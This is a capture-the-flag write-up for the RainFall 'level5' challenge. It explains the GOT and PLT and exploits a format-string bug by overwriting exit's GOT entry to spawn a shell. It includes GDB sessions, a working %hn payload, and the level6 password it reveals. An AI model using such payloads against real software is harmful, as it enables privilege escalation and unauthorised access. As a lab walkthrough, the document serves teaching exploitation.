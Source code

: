 # level5

### First analysis

Again we have an exercice that is probably going to be straightforward. We have a very similar case where fgets and printf are used but let's analyze the main differences we have in this one. Again using ghidra we can observe this code:

```c
void o(void) {
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  _exit(1);
}

void n(void) {
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    /* WARNING: Subroutine does not return */
  exit(1);
}

void main(void) {
  n();
  return;
}
```

This time everything is shown so we can understand pretty quickly what do we have to do here. As we can see o() function is never called, and we can easily guess that this level is about redirection. A function never called that executes a shell as level6 makes is kinda obvious. We can also see the usage of exit() function instead of a regular return.

### Find a solution

The first idea that comes to mind is to change the return address of n() to the start of the funtion o(). Exactly like in level1. However, as we seen, this program uses exit() functions instead of returns. The consequence of that is, as written as note in ghidra, the subroutine does not return. Indeed exit() stops the functions to return to main and instead simply leave the programs. That changes a lot because now changing the return value of a function is completely useless since it will never be used.

This is where we have to make a digression about a new aspect related to code execution, the GOT table.

### The GOT Table (digression)

GOT stands for Global Offset Table, so indeed saying GOT Table doesn't make a lot of sense. We are going to call it only the GOT for now on, along with another element, the PLT, the Procedure Linkage Table.

In order to make program lighter, not all functions are always stored in a binary. Libc for example is a huge library containing functions that we can use in our programs, functions like printf() for example or exit(). Those functions are not copied in every binary using those functions but will be called by them. That's why when clicking on printf on ghidra we can observe this:

```
<EXTERNAL>::printf
```

It is an external functions. However here we have a problem, the PIE we talked about earlier (level4) helps the program to always starts at the same position in memory, with offset it knows where to call every functions of the binary but how to find the address of an external functions where libc functions can changes addresses ? Indeed printf will not have the same position all the time and binaries needs a way to know how to call libc functions and where. (Here it wouldn't be that much of a problem since we saw that ASLR is not active on Rainfall, but still the question remains of findind the address a first time at least).

The PLT comes into play right here. If we try to see where printf elements are stored in our binary, we can see that the PLT (which is a section of our binary) define a j_printf functions, with j standing for jump instructions (ASM instruction to jump to an address). This jump instruction is usually directed to < function_name >@GOT. Okay that's a lot but let's try to make it clear.

The PLT is, as it stands for, a procedure. When an binary is executed, a lot of things happen before entering the main function. One of those things is to resolve libc functions and dynamic library calls. The PLT will call for every external function, another function called _dl_runtime_resolve(), part of the ld.so library. This library is a dynamic linker/loader. We are definitely not gonna explains in depth how this functions and library works (you can read the man if you're inrerested in that), what we need to know is that it will returns the address of the externam functions we are looking for. It will then store this address in... you guessed it, the Global Offset Table. This address will now be used for every call of this function through the program (exit is called 2 times for example but the PLT is only gonna be called once, then the address will be stored on the GOT, and every call for that function will now check on the GOT and not call the PLT anymore).

### GOT Overwrite

Why are we interested in this GOT now ? Well it is actually possible to ovewrite values from the GOT, which is exactly what we need. Since we can't overwrite the return address of n() because exit() is used, why not changing the address of exit() in the GOT for the o() function's address ? This is exactly what we are going to try to do.

We haven't talked about it yet but this program has a format string vulnerability. Very easy way to verify this:

```sh
level5@RainFall:~$ ./level5 
%x %x
200 b7fd1ac0
```

%x are replaced with numbers, we know that a format string vulnerabilty exists. We also already know a lot of things we can do with this kind of vulnerabilty from level3 and level4. So let's gather some informations:

```sh
(gdb) x o
0x80484a4 <o>:	0x83e58955

(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   [...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```

So we have the address of o, 0x80484a4, and we also have the call to the PLT at address 0x80483d0 for exit. Again PLT is a procedure to resolve the addresss of exit by indexing it in the GOT, the address we see here is not the address of exit. Let's analyze it knowing it:

```sh
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```

So by disassembling the address where the PLT points to, we find a new jump to the GOT this time, and we now know the address where exit function is stored in the GOT, 0x8049838. (The actuall address of exit is 0x080483d6, but we don't care about that since it will be overwritten by the address of o(), what we want is where this address is stored).

A simple way to do that is to use gdb and changes the value during the execution to see if everything works as expected:

```sh
(gdb) b *0x080484f0
Breakpoint 1 at 0x80484f0
(gdb) b *0x080484f8
Breakpoint 2 at 0x80484f8
```

First we set a breakpoint before and after printf call. We then run the program, enter some random values on the buffer, and fall into the first breakpoint.

```sh
(gdb) set {int}0x8049838=0x80484a4
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080484a4
```

We set the value on the GOT for exit, as the value for o().

```sh
(gdb) c
Continuing.
$ whoami
level5
```

We then continued and we now launched a shell ! Of course as level5 since gdb execute the program with the privilege of the user using it, but it works. We now just have to do that with the format string vulnerability to have a shell as level6.

First important check, where is the buffer stored in the stack ?

```sh
level5@RainFall:~$ ./level5 
AAAA %x %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```

As we can see it is the same format as for level3, the buffer size, then 2 addresses, then our buffer. So on the 4th position in the stack after where we are writing. And now it is exactly how we did for level4, write an address, into a specific memory address.

A more detailed explanation on how the payload is adapted for this level is in Resources/explanation.md but this is what we came up with:

```py
'\x40\x98\x04\x08' + 'AAAA' + '\x38\x98\x04\x08' + '%x' * 2 + '%2029x' + '%hn' + '%31904x' + '%hn'
```

We can now try it and see the flag:

```sh
level5@RainFall:~$ echo $(python -c "print('\x40\x98\x04\x08' + 'AAAA' + '\x38\x98\x04\x08' + '%x' * 2 + '%2029x' + '%hn' + '%31904x' + '%hn')") > /tmp/payload
level5@RainFall:~$ cat /tmp/payload - | /home/user/level5/level5
@AAAA8200b7fd1ac0

[...] # After a few thousands spaces

41414141
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Important doc

[GOT and PLT explained](https://www.youtube.com/watch?v=kUk5pw4w0h4)
[Exploiting FSV](https://medium.com/zh3r0/intro-to-pwn-protostar-format-strings-c86ca3458ad3)